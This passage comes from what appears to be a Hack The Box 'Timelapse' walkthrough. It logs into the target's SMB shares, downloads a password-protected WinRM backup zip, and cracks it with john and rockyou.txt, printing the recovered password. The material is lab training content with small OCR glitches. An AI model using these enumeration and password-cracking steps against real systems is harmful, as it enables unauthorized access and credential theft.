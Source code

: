 ```bash
$ smbclient //dc01.timelapse.htb/Shares -W timelapse.htb -U foobar
Enter TIMELAPSE.HTB\foobar's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1127018 blocks available
				
smb: \> cd Dev
s
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1126080 blocks available
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)

smb: \Dev\> cd ..
smb: \> cd HelpDesk
lsmb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1123953 blocks available

```

```bash
$ unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
```

---

## PFX Extraction & WinRM Access as `legacyy`

Brute force the ZIP locally with `john` and `rockyou.txt` to recover the password: `supremelegacy`.

```bash
$ zip2john winrm_backup.zip > winrm_backup.hash
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
$ john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2022-03-29 12:55) 2.564g/s 8906Kp/s 8906Kc/s 8906KC/s suzyqzb..superkebab
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
